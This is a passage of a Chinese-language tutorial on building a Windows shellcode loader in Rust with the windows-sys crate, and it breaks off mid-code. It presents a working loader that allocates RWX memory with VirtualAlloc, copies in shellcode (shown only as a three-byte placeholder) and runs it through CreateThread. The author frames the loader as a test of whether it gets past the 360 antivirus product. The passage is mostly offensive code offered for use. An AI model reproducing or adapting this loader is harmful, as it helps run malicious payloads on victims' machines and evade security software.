跟其他大多数的语言一样，rust也集成了windows的api,这样我们就可以来调用加载我们的shellcode,这里我们用到两个库windows-sys和winapi。

### windows-sys

首先要引用==windows-sys==，要引用它，我们往==Cargo.toml==引入以下依赖

```plain
windows-sys = { version = "0.48.0", features = ["Win32_Foundation", "Win32_System_Threading", "Win32_Security", "Win32_System_Memory"] }
```

下面是一个基本的加载器，我们以最基础的VirtualAlloc来测试360最新版

```plain
#![windows_subsystem = "windows"]

use windows_sys; 
use std::{ptr, ffi::c_void};

fn main() {
    let shellcode: [u8; 3] = [ 0xfc, 0x48, 0x83];  // shellcode

    // 执行shellcode
    exec(&shellcode);
}

fn exec(shellcode: &[u8]) {
    unsafe {
        // 使用VirtualAlloc初始化shellcode
        let exec_shellcode = windows_sys::Win32::System::Memory::VirtualAlloc(
            ptr::null_mut(), // 分配内存
            shellcode.len(), 
            windows_sys::Win32::System::Memory::MEM_COMMIT
                | windows_sys::Win32::System::Memory::MEM_RESERVE, 
            windows_sys::Win32::System::Memory::PAGE_EXECUTE_READWRITE, 
        );

        // 复制shellcode到RWX内存
        std::ptr::copy(
            shellcode.as_ptr(),
            exec_shellcode as *mut u8,
            shellcode.len(),
        );

        // 使用CreateThread来执行一个线程
        // 使用transmute转换为函数指针
        let exec_shellcode_pointer: extern "system" fn(*mut c_void) -> u32 =
            { std::mem::transmute(exec_shellcode) };
        let thread_handle = windows_sys::Win32::System::Threading::CreateThread(
            ptr::null_mut(),
            0,
            Some(exec_shellcode_pointer),
            ptr::null_mut(),
            0,
            ptr::null_mut(),
        );

        windows_sys::Win32::System::Threading::WaitForSingleObject(
            thread_handle,
            windows_sys::Win32::System::Threading::INFINITE,
        );

        // 释放之前分配的内存并关闭线程句柄
        windows_sys::Win32::System::Memory::VirtualFree(
            exec_shellcode,
            0,
```